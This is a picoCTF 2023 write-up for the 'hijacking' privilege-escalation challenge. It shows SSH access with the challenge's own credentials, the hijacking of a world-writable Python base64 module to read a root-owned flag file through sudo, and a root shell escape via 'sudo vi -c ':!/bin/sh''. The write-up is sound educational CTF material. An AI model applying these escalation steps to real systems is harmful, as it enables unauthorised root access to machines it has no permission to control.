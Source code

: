 # hijacking

- [Challenge information](#challenge-information)
- [Solution](#solution)
- [Alternative solution](#alternative-solution)
- [References](#references)

## Challenge information
```
Points: 200
Tags: picoCTF 2023, Binary Exploitation, privilege_escalation
Author: THEONESTE BYAGUTANGAZA

Description:
Getting root access can allow you to read the flag. 
Luckily there is a python file that you might like to play with.

Through Social engineering, we've got the credentials to use on the server. 
SSH is running on the server.
saturn.picoctf.net 52735
Username: picoctf
Password: urTi-qvQtA
 
Hints:
1. Check for Hidden files
2. No place like Home:)
```
Challenge link: [https://play.picoctf.org/practice/challenge/352](https://play.picoctf.org/practice/challenge/352)

## Solution

### Connect to the server

We start by connecting to the server
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2023/Binary_Exploitation/hijacking]
└─$ ssh -p 52735 picoctf@saturn.picoctf.net
The authenticity of host '[saturn.picoctf.net]:52735 ([13.59.203.175]:52735)' can't be established.
ED25519 key fingerprint is SHA256:lAxuAwDPxkngr5Aw0vqCbwmNz/+0ii8HjltkWeRcMjw.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[saturn.picoctf.net]:52735' (ED25519) to the list of known hosts.
picoctf@saturn.picoctf.net's password: 
Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 5.19.0-1024-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

picoctf@challenge:~$ 
```

And then we look for the python file mentioned in the challenge description
```bash
picoctf@challenge:~$ ls -la
total 16
drwxr-xr-x 1 picoctf picoctf   20 Nov  4 15:38 .
drwxr-xr-x 1 root    root      21 Aug  4 21:10 ..
-rw-r--r-- 1 picoctf picoctf  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 picoctf picoctf 3771 Feb 25  2020 .bashrc
drwx------ 2 picoctf picoctf   34 Nov  4 15:38 .cache
-rw-r--r-- 1 picoctf picoctf  807 Feb 25  2020 .profile
-rw-r--r-- 1 root    root     375 Mar 16  2023 .server.py
```
The python script is owned by root and we are not allowed to modify it.

Let's check what it contains
```python
picoctf@challenge:~$ cat .server.py 
import base64
import os
import socket
ip = 'picoctf.org'
response = os.system("ping -c 1 " + ip)
#saving ping details to a variable
host_info = socket.gethostbyaddr(ip) 
#getting IP from a domaine
host_info_to_str = str(host_info[2])
host_info = base64.b64encode(host_info_to_str.encode('ascii'))
print("Hello, this is a part of information gathering",'Host: ', host_info) 
```

### Check for sudo privileges

Next, let's check what we can run with [sudo](https://en.wikipedia.org/wiki/Sudo)
```bash
picoctf@challenge:~$ sudo -l
Matching Defaults entries for picoctf on challenge:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User picoctf may run the following commands on challenge:
    (ALL) /usr/bin/vi
    (root) NOPASSWD: /usr/bin/python3 /home/picoctf/.server.py
```
As expected we can run the server file with python but we can also run vi.

### Hijack a python module - part 1

We will try to hijack one of the python modules used in the server file, that is `base64`, `os` or `socket`.

First we find the path that python uses
```bash
picoctf@challenge:~$ python3
Python 3.8.10 (default, May 26 2023, 14:05:08) 
[GCC 9.4.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import sys
>>> print(sys.path)
['', '/usr/lib/python38.zip', '/usr/lib/python3.8', '/usr/lib/python3.8/lib-dynload', '/usr/local/lib/python3.8/dist-packages', '/usr/lib/python3/dist-packages']
>>> exit()
```

Next, we check the file permissions for the module files in the `/usr/lib/python3.8` directory
```bash
picoctf@challenge:/usr/lib/python3.8$ ls -la base64.py os.py socket.py 
-rwxrwxrwx 1 root root 20382 May 26 14:05 base64.py
-rw-r--r-- 1 root root 38995 May 26 14:05 os.py
-rw-r--r-- 1 root root 35243 May 26 14:05 socket.py
```
Ah perfect, we can modify the `base64.py` file.  
But we still don't know the name of the flag file.

### Find out the flag file name

We can use `vi` to read the `/root` directory just like any file
```bash
picoctf@challenge:/usr/lib/python3.8$ sudo vi /root/
[sudo] password for picoctf: 
```

The result is
```
" ============================================================================
" Netrw Directory Listing                                        (netrw v165)
"   /root
"   Sorted by      name
"   Sort sequence: [\/]$,\<core\%(\.\d\+\)\=\>,\.h$,\.c$,\.cpp$,\~\=\*$,*,\.o$,\.obj$,\.info$,\.swp$,\.bak$,\~$
"   Quick Help: <F1>:help  -:go up dir  D:delete  R:rename  s:sort-by  x:special
" ==============================================================================
../                                                                                                                                                                             
./
.vim/
.bashrc
.flag.txt
.profile
```

So now we know that the flag file is `/root/.flag.txt`.

### Hijack a python module - part 2

We add the following line to the `base64.py` file after the [shebang](https://en.wikipedia.org/wiki/Shebang_(Unix))
```python
print(open('/root/.flag.txt', 'r').read())
```

### Get the flag

And finally we run the server with sudo to get the flag
```bash
picoctf@challenge:/usr/lib/python3.8$ sudo python3 ~/.server.py 
picoCTF{<REDACTED>}

sh: 1: ping: not found
Traceback (most recent call last):
  File "/home/picoctf/.server.py", line 7, in <module>
    host_info = socket.gethostbyaddr(ip) 
socket.gaierror: [Errno -5] No address associated with hostname
```

## Alternative solution

A more direct approach would be to use [vi to launch a shell](https://gtfobins.github.io/gtfobins/vi/) directly
```bash
picoctf@challenge:~$ sudo vi -c ':!/bin/sh'
[sudo] password for picoctf: 

# cd /root
# ls -la
total 12
drwx------ 1 root root   23 Aug  4 21:12 .
drwxr-xr-x 1 root root   51 Nov  4 16:06 ..
-rw-r--r-- 1 root root 3106 Dec  5  2019 .bashrc
-rw-r--r-- 1 root root   43 Aug  4 21:12 .flag.txt
-rw-r--r-- 1 root root  161 Dec  5  2019 .profile
# cat .flag.txt 
picoCTF{<REDACTED>}
```

For additional information, please see the references below.

## References

- [Wikipedia - Shebang (Unix)](https://en.wikipedia.org/wiki/Shebang_(Unix))
- [Wikipedia - sudo](https://en.wikipedia.org/wiki/Sudo)
- [GTFObins - vi](https://gtfobins.github.io/gtfobins/vi/)
